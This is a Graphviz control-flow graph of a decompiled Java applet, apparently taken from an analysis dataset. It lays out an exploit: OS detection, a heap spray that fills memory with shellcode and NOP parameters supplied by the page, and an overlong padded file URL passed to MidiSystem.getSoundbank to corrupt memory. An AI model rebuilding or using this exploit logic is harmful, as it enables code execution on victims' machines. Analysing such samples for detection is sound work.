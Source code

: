 digraph "" {
    "r0 := @this: applet"
    "push 47"
    "r0 := @this: applet"->"push 47";
    "push 303"
    "push 47"->"push 303";
    "staticinvoke <applet: java.lang.String repeat(char,int)>"
    "push 303"->"staticinvoke <applet: java.lang.String repeat(char,int)>";
    "pop"
    "staticinvoke <applet: java.lang.String repeat(char,int)>"->"pop";
    "push \"os.name\""
    "pop"->"push \"os.name\"";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"
    "push \"os.name\""->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String toLowerCase()>"
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"virtualinvoke <java.lang.String: java.lang.String toLowerCase()>";
    "store.r r1"
    "virtualinvoke <java.lang.String: java.lang.String toLowerCase()>"->"store.r r1";
    "load.r r1"
    "store.r r1"->"load.r r1";
    "push \"win\""
    "load.r r1"->"push \"win\"";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"
    "push \"win\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "iflt load.r r1"
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"iflt load.r r1";
    "iflt load.r r1"->"push 47";
    "push 302"
    "push 47"->"push 302";
    "push 302"->"staticinvoke <applet: java.lang.String repeat(char,int)>";
    "staticinvoke <applet: java.lang.String repeat(char,int)>"->"store.r r1";
    "goto new java.lang.StringBuilder"
    "store.r r1"->"goto new java.lang.StringBuilder";
    "new java.lang.StringBuilder"
    "goto new java.lang.StringBuilder"->"new java.lang.StringBuilder";
    "dup1.r"
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"fil\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"fil\"";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "push \"fil\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"e:/\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"e:/\"";
    "push \"e:/\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"/\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"/\"";
    "push \"/\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Z%Z%\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Z%Z%\"";
    "push \"Z%Z%\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Z%Z%Z\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Z%Z%Z\"";
    "push \"Z%Z%Z\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"%Z%\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"%Z%\"";
    "push \"%Z%\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r1";
    "load.r r0"
    "store.r r1"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "push \"sc\""
    "load.r r0"->"push \"sc\"";
    "virtualinvoke <applet: java.lang.String getParameter(java.lang.String)>"
    "push \"sc\""->"virtualinvoke <applet: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <applet: java.lang.String getParameter(java.lang.String)>"->"load.r r0";
    "push \"np\""
    "load.r r0"->"push \"np\"";
    "push \"np\""->"virtualinvoke <applet: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <applet: java.nio.IntBuffer[] spray(java.lang.String,java.lang.String)>"
    "virtualinvoke <applet: java.lang.String getParameter(java.lang.String)>"->"virtualinvoke <applet: java.nio.IntBuffer[] spray(java.lang.String,java.lang.String)>";
    "fieldput <applet: java.nio.IntBuffer[] mem>"
    "virtualinvoke <applet: java.nio.IntBuffer[] spray(java.lang.String,java.lang.String)>"->"fieldput <applet: java.nio.IntBuffer[] mem>";
    "new java.net.URL"
    "fieldput <applet: java.nio.IntBuffer[] mem>"->"new java.net.URL";
    "new java.net.URL"->"dup1.r";
    "dup1.r"->"load.r r1";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "load.r r1"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Soundbank getSoundbank(java.net.URL)>"
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Soundbank getSoundbank(java.net.URL)>";
    "staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Soundbank getSoundbank(java.net.URL)>"->"pop";
    "push 10L"
    "pop"->"push 10L";
    "staticinvoke <java.lang.Thread: void sleep(long)>"
    "push 10L"->"staticinvoke <java.lang.Thread: void sleep(long)>";
    "goto push 10L"
    "staticinvoke <java.lang.Thread: void sleep(long)>"->"goto push 10L";
    "store.r r0"
    "staticinvoke <java.lang.Thread: void sleep(long)>"->"store.r r0";
    "staticget <java.lang.System: java.io.PrintStream out>"
    "store.r r0"->"staticget <java.lang.System: java.io.PrintStream out>";
    "staticget <java.lang.System: java.io.PrintStream out>"->"load.r r0";
    "virtualinvoke <java.io.PrintStream: void println(java.lang.Object)>"
    "load.r r0"->"virtualinvoke <java.io.PrintStream: void println(java.lang.Object)>";
    "return"
    "virtualinvoke <java.io.PrintStream: void println(java.lang.Object)>"->"return";
    "iflt load.r r1"->"load.r r1";
    "push \"mac\""
    "load.r r1"->"push \"mac\"";
    "push \"mac\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"iflt load.r r1";
    "iflt load.r r1"->"push 47";
    "push 1080"
    "push 47"->"push 1080";
    "push 1080"->"staticinvoke <applet: java.lang.String repeat(char,int)>";
    "staticinvoke <applet: java.lang.String repeat(char,int)>"->"store.r r1";
    "store.r r1"->"goto new java.lang.StringBuilder";
    "iflt load.r r1"->"load.r r1";
    "push \"nix\""
    "load.r r1"->"push \"nix\"";
    "push \"nix\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "ifge push 47"
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"ifge push 47";
    "ifge push 47"->"load.r r1";
    "push \"nux\""
    "load.r r1"->"push \"nux\"";
    "push \"nux\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "iflt return"
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"iflt return";
    "iflt return"->"push 47";
    "push 1337"
    "push 47"->"push 1337";
    "push 1337"->"staticinvoke <applet: java.lang.String repeat(char,int)>";
    "staticinvoke <applet: java.lang.String repeat(char,int)>"->"store.r r1";
    "store.r r1"->"goto new java.lang.StringBuilder";
    "iflt return"->"return";
}

